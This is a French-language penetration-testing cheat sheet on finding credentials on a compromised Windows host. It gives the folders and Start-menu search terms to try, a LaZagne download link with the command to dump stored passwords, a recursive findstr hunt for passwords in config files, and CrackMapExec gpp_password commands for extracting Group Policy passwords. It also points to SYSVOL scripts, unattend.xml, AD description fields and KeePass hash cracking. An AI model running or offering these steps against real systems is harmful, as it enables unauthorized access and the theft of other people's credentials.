 ```yaml
---
public: true # set to true to make the article publishable
---
```

## Dossiers intéressants
- `c:\`
- `%USERPROFILE%\`
- `%USERPROFILE%\Documents`
- `%USERPROFILE%\Desktop`
## Barre de recherche Windows
Mots à tenter dans la barre de recherche du menu Démarrer

```
Passwords
Passphrases
Keys
Username
User account
Creds
Users
Passkeys
Passphrases
configuration
dbcredential
dbpassword
pwd
Login
Credentials
```

## Lazagne
https://github.com/AlessandroZ/LaZagne/releases/download/v2.4.5/LaZagne.exe
```
C:\Users\bob\Desktop> start lazagne.exe all
```

## Findstr

```
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```

## Mots de passe dans les stratégies de groupe

```
# cme smb <TARGET[s]> -u <USERNAME> -p <PASSWORD> -d <DOMAIN> -M gpp_password

Local admin:
# cme smb 10.0.5.1 -u Administrator -p P@ss123 -d . -M gpp_password
# cme smb 10.0.5.1 -u Administrator -p P@ss123 --local-auth -M gpp_password

Domain user:
# cme smb 10.0.5.1 -u bkpadmin -p P@ss123 -d target.corp -M gpp_password
```

## Autre 

Passwords in scripts in different shares :
- SYSVOL
- IT shares

Passwords in web.config files on dev machines and IT shares
unattend.xml

Passwords in the AD user or computer description fields

KeePass databases --> pull hash, crack and get loads of access.
Found on user systems and shares
Files such as pass.txt, passwords.docx, passwords.xlsx found on user systems, shares, Sharepoint
